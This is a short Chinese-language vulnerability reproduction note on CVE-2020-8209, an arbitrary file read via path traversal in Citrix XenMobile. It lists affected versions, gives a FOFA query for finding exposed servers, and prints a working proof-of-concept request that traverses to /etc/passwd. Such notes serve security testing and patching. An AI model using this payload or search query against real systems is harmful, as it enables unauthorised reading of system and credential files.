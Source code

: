 # Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 影响版本

<a-checkbox checked>RP2之前的XenMobile服务器10.12</a-checkbox></br>

<a-checkbox checked>RP4之前的XenMobile服务器10.11</a-checkbox></br>

<a-checkbox checked>RP6之前的XenMobile服务器10.1010.9</a-checkbox></br>

<a-checkbox checked>RP5之前的XenMobile服务器</a-checkbox></br>

## FOFA

<a-checkbox checked>title="XenMobile"</a-checkbox></br>

## 漏洞复现

验证POC

```
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
```

![img](../../../.vuepress/public/img/xen-1.png)